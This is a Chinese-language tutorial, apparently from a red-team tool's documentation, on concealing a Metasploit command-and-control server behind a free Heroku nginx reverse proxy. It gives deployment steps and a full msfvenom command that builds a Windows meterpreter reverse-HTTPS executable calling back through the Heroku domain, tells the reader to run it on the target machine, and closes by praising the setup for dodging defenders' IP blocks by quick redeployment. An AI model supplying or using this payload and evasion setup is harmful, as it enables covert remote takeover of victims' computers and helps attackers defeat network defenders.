 # 利用heroku隐藏C2服务器
Heroku是一个支持多种编程语言的云平台即服务。简单理解就是可以免费部署docker容器并且可以开放web服务到互联网.下面介绍操作步骤.

- 首先注册Heroku账号，点击通过 [https://dashboard.heroku.com](https://dashboard.heroku.com/) 注册一个账号 (推荐使用gmail)
- 注册成功以后登录，登录以后点击 [部署链接](https://dashboard.heroku.com/new?template=https://github.com/FunnyWolf/nginx-proxy-heroku),
- app名称填写为 `mydiydomain` (可自定义,名称为后续域名前缀)，TARGET环境变量填写为C2的handler地址

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603771065455-e03973a0-8763-4402-8b92-db358f8d0b1f.png#align=left&display=inline&height=488&margin=%5Bobject%20Object%5D&name=image.png&originHeight=976&originWidth=1224&size=76155&status=done&style=none&width=612)

- 然后点击 Deploy app 系统会自动部署.
- 在metasploit-framework中添加handler,配置如图

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603771665090-ad5c1ecd-c257-44f3-9128-4430183a2e34.png#align=left&display=inline&height=191&margin=%5Bobject%20Object%5D&name=image.png&originHeight=381&originWidth=1334&size=59756&status=done&style=none&width=667)![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603771713694-163331e4-cb96-4bb9-aa79-84980ab9c4ee.png#align=left&display=inline&height=155&margin=%5Bobject%20Object%5D&name=image.png&originHeight=309&originWidth=2281&size=88820&status=done&style=none&width=1140.5)


- 执行 `to_handler` 生成listener
- 使用如下命令生成payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=mydiydomain.herokuapp.com LPORT=443 -f exe -o ~/payload.exe
```

- 上传运行目标机器运行即可
# 运行效果

- 在metasploit-framework中查看session如下,可以看到session的链接地址为heroku中转服务器地址

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772048769-0192b120-768f-45ef-986f-4c13d4c1fae4.png#align=left&display=inline&height=133&margin=%5Bobject%20Object%5D&name=image.png&originHeight=265&originWidth=1737&size=32159&status=done&style=none&width=868.5)

- 在目标机抓包效果如下

![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772254394-2251f568-89ae-48de-9c55-36b864bbffb0.png#align=left&display=inline&height=33&margin=%5Bobject%20Object%5D&name=image.png&originHeight=66&originWidth=802&size=6382&status=done&style=none&width=401)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772434299-3721e8f1-0eae-4296-b735-a741b20830d8.png#align=left&display=inline&height=230&margin=%5Bobject%20Object%5D&name=image.png&originHeight=459&originWidth=1612&size=144248&status=done&style=none&width=806)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/159259/1603772464467-3e81edaf-c634-42de-8e79-8ef5091a7c03.png#align=left&display=inline&height=768&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1535&originWidth=1296&size=272442&status=done&style=none&width=648)
# 总结
heroku隐藏C2从技术原理上看非常简单,使用heroku服务部署nginx反向代理服务,payload连接heroku的nginx,nginx将流量转发到C2.具体优势如下:

- 只需要注册heroku免费账号即可
- 无需注册或购买域名
- 自带可信的SSL证书(heroku域名自带证书)
- 如果IP地址被封锁,可删除原有heroku app重新部署heroku app(大约需要30s),与防守人员持续对抗
- 操作步骤简单

